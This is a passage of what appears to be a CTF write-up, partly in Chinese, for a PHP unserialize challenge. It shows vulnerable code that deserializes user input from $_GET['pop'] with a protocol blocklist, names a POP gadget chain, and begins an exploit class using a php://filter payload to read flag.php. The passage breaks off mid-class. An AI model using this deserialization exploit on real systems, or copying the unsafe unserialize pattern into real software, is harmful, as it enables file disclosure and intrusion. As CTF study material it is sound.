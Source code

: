 ```php
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}
```

pop 链: Show::__wakeup()->Show::__tostring()->Test::__get()->Modifier::__invoke()

exp

```php
<?php
//flag is in flag.php
//WTF IS THIS?
//Learn From https://ctf.ieki.xyz/library/php.html#%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%AD%94%E6%9C%AF%E6%96%B9%E6%B3%95
//And Crack It!
class Modifier {
    protected  $var='php://filter/read=convert.base64-encode/resource=flag.php';
}

class Show{
    public $source;
    public $str;
    public function __construct($file='index.php'){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return $this->str->source;
    }

    public function __wakeup(){
```